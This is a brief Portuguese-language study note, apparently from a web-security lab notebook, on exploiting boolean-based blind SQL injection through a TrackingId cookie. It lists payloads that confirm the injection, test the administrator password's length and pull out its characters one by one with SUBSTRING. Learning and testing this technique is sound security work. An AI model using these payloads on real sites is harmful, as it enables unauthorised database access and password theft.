 ```yaml
---
description: Resolvendo a query blind em boolean based
---
```


# Como quebrar e corrigir a query no boolean based.

<mark style="color:yellow;">Cookie: TrackingId=IwFid1TZfsjh5UAO</mark><mark style="color:red;">' AND '1' = '1</mark>   (Quando colocado o aspas e and

<mark style="color:green;">' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>=20)='a</mark>

<mark style="background-color:blue;">' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator') = 'a</mark>
